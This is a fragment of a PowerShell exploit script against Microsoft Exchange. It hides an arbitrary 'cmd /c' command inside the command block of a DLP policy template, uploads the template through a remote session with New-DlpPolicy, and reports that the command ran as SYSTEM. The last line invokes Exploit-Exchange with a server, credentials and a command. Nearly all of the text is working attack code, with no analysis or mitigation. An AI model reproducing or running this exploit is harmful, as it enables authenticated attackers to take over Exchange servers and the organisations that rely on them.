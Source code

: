         <policyCommands>
          <commandBlock>
            <![CDATA[ `$i=New-object System.Diagnostics.ProcessStartInfo;`$i.UseShellExecute=`$true;`$i.FileName="cmd";`$i.Arguments="/c $cmd";`$r=New-Object System.Diagnostics.Process;`$r.StartInfo=`$i;`$r.Start() ]]>
          </commandBlock>
        </policyCommands>
        <policyCommandsResources></policyCommandsResources>
      </dlpPolicyTemplate>
    </dlpPolicyTemplates>"@

        $n = Get-RandomAlphanumericString
        [Byte[]]$d = [System.Text.Encoding]::UTF8.GetBytes($xml)
        Invoke-Command -Session $s -ScriptBlock {
            New-DlpPolicy -Name $Using:n -TemplateData $Using:d
        } | Out-Null
        "(+) executed $cmd as SYSTEM!"
    }

    Get-PSSession | Remove-PSSession
    Exploit-Exchange -server $server -usr $usr -pwd $pwd -cmd $cmd
